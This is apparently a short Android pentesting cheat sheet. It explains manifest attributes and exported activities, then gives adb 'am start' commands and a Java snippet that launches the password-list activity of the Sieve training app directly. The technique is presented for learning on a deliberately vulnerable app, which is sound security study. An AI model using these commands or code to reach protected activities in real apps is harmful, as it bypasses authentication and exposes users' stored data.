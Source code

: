 1. [Analyse](#analyse)
2. [Activity Hacking](#Activity-Hacking)

## Analyse

**android:compileSdkVersionCodename** >>  Define the android version.<br>

**android:compileSdkVersion** >> Define the android api version.<br>

**package** >> Unique Idenfier of an apk.<br>

<**uses-permission**> >> Requests permission to access other apps data.<br>

<**permission**> >> Define a custom permission to give access of resources to other apps. (Exploit Vector)<br>

<**queries**> >> Exchange data between other applications.

**exported="true"** or <**intent-filter**>...<**intent-filter**/> >> This things are activity.

**android:exported** missing but intent filter present	✅ Exported (automatically)
<br>
**android:exported** missing and no intent filter		🚫 Not exported

**android:scheme** >> Defines deeplink, weblink and applink.

## Activity Hacking

**With ADB**

	am start -n <package-name/.activity-name> >> To start a specific activity of an app/package.
	
	am start -a <action-name> -c <catagory-name> >> To start a intent activity with action and catagory name.
	
	am start -a <action-name> -c <catagory-name> --es "username" "admin" >> To provide data to the activity.


**MainActivity.java**


```java
package com.example.myapplication;

import android.content.ComponentName;
import android.content.Intent;
import android.os.Bundle;
import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {

        // 🔹 Launch malicious Activity explicitly
        Intent intent = new Intent();
        intent.setComponent(new ComponentName(
                "com.mwr.example.sieve",        // target package
                "com.mwr.example.sieve.PWList"  // target activity
        ));
        startActivity(intent);
    }
}
```

